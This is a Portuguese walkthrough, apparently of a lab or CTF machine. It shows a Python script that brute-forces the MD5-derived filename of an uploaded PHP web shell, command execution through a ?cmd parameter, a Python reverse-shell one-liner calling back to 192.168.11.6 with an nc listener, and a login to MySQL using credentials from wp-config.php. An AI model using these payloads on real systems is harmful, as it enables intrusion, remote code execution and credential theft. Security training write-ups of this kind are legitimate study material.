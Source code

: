 O upload funcionou, mas não conseguimos encontrar o arquivo, pois não sabemos qual o nome que ele foi salvo, mas como sabemos como ele salva o nome, podemos fazer um bruteforce com o nome do arquivo e números de 1 a 100, que é o range que tem no upload.php
```python
from hashlib import md5
from sys import argv
import requests

targetDir = 'uploads/'
url = 'http://192.168.11.9:8000/'
filename = argv[1]

for i in range(1, 101):
    enc = md5()
    enc.update((filename + str(i)).encode())
    targetFile = targetDir + enc.hexdigest() +'.'+ filename.split('.')[1]
    r = requests.get(url + targetFile)
    if r.status_code != 404:
        print(targetFile, r)
    
    enc = ''
```
```
$ python script.py Brazil.php
uploads/5441e849bba52140cd3ef37f26a95ba6.php <Response [200]>
```

Acessando http://localhost:8000/uploads/5441e849bba52140cd3ef37f26a95ba6.php?cmd=ls vemos que conseguimos executar comandos do sistema, então podemos conseguir uma shell:
No parametro ?cmd, coloca:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.11.6",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

E no terminal colocar:
```
$ nc -vvnlp 1234
```

Com o shell, podemos tentar escalar privilégios, executando o LinEnum.sh vi que eu estava dentro de um container do docker e não dentro da vm real. Mas então, olhando o arquivo wp-config.php vejo que esse container está conectado com um outro que executa o mysql, o nome desse container é db. Como no wp-config tem as credenciais do banco de dados, fiz o login e vi que lá estavam as credenciais do ssh:  
![db](img/db.png)  
```
$ mysql -h db -u wordpress -p
Enter password: wordpress
```